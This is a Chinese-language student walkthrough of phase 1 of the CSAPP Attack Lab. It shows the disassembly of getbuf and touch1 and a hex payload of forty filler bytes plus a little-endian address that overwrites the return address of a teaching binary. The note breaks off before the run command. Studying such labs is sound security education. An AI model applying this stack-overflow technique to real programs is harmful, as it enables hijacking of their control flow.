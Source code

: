 CSAPP Note chap3 attacklab

CSAPP  读书笔记系列chap3 attacklab

### attacklab

需要注意的是这个lab可能会遇到shark machine(也就是ＭＴＵ的远程机)，下面具体遇到再说http://ysite.me/no-shark/

这篇教程说到的前两个phase不搞也行

LET US START,
教程更加具体的可以看这篇http://wdxtub.com/2016/04/16/thick-csapp-lab-3/
,这个菊苣是ＭＴＵ的ＴＡ，他的环境是MTＵ的内网，我们ｓｅｌｆｓｔｕｄｙ的有一些不同；自己动手做一下

用到的文件
- ctarget: 用来做代码注入攻击的程序
- rtarget: 用来做 ROP 攻击的程序
- cookie.txt: 一个 8 位的 16 进制代码，用来作为攻击的标识符
- farm.c: 用来找寻 gadget 的源文件
- hex2raw: 用来生成攻击字符串的程序


#### phase_1
- objdump -d ctarget > ctarget.txt

得到的文件为
```

00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp  ＃缓冲区为０x28，即40大小字节
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```
然后把00000000　004017c0的　后八位 0x004017c0为栈顶的地址，注意是小端模式；

新建一个文件p1.txt，内容为：

前四十位是啥都不重要，后面四位按照 little endian 的规则逆向填上地址就好（注意这里为了排版用了换行，实际上都应该在一行，用空格分开），这样就改写了属于原来的返回地址。
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```
然后执行